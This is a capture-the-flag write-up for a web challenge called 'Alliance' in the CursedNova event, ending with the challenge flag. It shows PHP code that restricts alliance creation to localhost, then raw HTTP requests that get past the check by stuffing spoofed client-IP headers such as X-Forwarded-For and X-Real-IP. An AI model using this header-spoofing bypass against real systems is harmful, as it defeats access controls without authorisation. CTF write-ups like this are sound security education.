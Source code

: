 # CursedNova, Alliance, web 

## Description
Create your own alliance.

## Solution

Quick look at `includes\pages\game\ShowAlliancePage.class.php` diff and we see:

```
    private function createAlliance()
    {
        $action = $this->getAction();
        if ($action == "send") {
            $checkOriginIpResult = checkOriginIP(getallheaders());
            echo ($checkOriginIpResult[1] . "\n");
            if ($checkOriginIpResult[0] === true) {
                $this->createAllianceProcessor();
            }

        } else {
            $this->display('page.alliance.create.tpl');
        }
    }
```

Page is doing some origin ip verification. When we want to create an alliance using normal browser, the page says that this functionality is available only from localhost:

[local](./img/local.png)

Let's use Burp Proxy for this task.

Using the following request:
```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost


atag=localhost&aname=localhost
```

we got:
```
HTTP/1.1 200 OK
Date: Tue, 21 Jun 2022 19:03:07 GMT
Server: nginx/1.21.6
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.3.33
P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Length: 21

Not localhost enough
```


So let's try more funky headers:

```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost
Referer: localhost
X-Forwarded-For: localhost
X-Real-IP: localhost
X-Forwarded-Host: localhost
Forwarded: for=localhost
Client-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Remote-IP: localhost
X-Remote-Addr: localhost
X-Host: localhost

atag=localhost&aname=localhost
```

and the flag is ours.

Flag: `CURSEDNOVA{You_must_gather_your_party_Chaid9aw}`